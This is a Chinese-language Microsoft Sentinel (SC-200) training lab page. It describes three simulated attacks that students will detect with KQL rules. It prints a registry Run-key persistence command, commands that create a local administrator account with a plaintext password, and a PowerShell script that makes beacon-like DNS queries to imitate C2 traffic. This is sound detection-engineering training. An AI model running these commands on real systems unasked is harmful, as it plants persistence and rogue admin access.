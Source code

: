 ```yaml
---
lab:
  title: 练习 5 - 了解检测建模
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# 学习路径 7 - 实验室 1 - 练习 5 - 了解检测建模

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)
### 任务 1：了解攻击

>**重要说明：在此练习中你不会执行任何操作。**  这些说明只说明了在后续练习中将执行的攻击。 请仔细阅读本页。

攻击模式基于开源项目： https://github.com/redcanaryco/atomic-red-team


#### 攻击 1 - 通过注册表项添加实现的持久性攻击

攻击者会在运行注册表项中添加一个程序。 这通过使程序在用户每次登录时都能运行来实现持久性。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。 这会让攻击者能够使用有特权的其他帐户登录。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### 攻击 3 - DNS / C2 

攻击者会向命令发送大量 DNS 查询，并控制 (C2) 服务器。 目的是对来自单个源系统或发往单个目标域的 DNS 查询的数目触发基于阈值的检测。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### 任务 2：了解检测建模

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。 你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。


有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，你将对分析规则进行其他更改。

>**注意：** 为了方便演示实验室，某些警报触发的时间期限较短。

## 继续完成练习 6
